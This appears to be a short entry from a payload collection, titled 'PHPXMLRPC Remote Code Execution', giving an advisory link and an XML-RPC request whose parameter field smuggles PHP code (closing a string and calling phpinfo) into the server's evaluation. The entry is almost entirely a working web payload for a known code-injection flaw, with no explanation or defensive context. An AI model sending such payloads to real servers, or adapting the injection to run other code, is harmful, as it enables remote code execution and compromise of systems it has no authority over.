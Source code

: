# PHPXMLRPC Remote Code Execution

http://www.gulftech.org/advisories/PHPXMLRPC%20Remote%20Code%20Execution/81

```
<?xml version="1.0"?>
<methodCall>
<methodName>test.method</methodName>
	<params>
		<param>
		<value><name>','')); phpinfo(); exit;/*</name></value>
		</param>
	</params>
</methodCall>
```
